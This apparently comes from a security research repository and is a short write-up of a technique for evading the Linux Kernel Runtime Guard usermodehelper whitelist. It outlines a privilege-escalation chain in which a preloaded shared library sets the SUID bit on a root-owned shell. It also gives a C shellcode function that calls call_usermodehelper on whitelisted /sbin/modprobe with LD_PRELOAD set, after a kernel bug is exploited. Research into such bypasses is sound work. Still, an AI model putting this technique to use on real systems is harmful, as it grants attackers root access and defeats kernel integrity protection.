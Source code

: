 call_usermodehelper (ld_preload)
================================

There is a whitelist of allowed usermodehelpers since LKRG 6.0 (https://www.openwall.com/lists/lkrg-users/2019/02/19/1). Calling a binary which is not in the list will trigger the alarm.

The idea of using `call_usermodehelper()` function (UMH) along with LD_PRELOAD is the following:
1) Create a shell binary
2) Create a shared object library which being preloaded to superuser process will change shell's file properties so it will be owned by root:root with SUID bit set
2) Exploit the vulnerability, schedule the "shellcode" with `schedule_on_each_cpu()` and use UMH with whitelisted binary and LD_PRELOAD set

Here is the modified `shellcode()` function which will do the privelege escalation:

~~~
void shellcode(void) {
	int (*call_usermodehelper)(const char *, void *, void *, int) = (void *)X_call_usermodehelper;
	char *argv[] = { (char []){ "/sbin/modprobe" }, 0 };
	char *envp[] = { (char []){ LD_PRELOAD_SHELL }, 0 };
	call_usermodehelper(argv[0], argv, envp, 1);
}
~~~
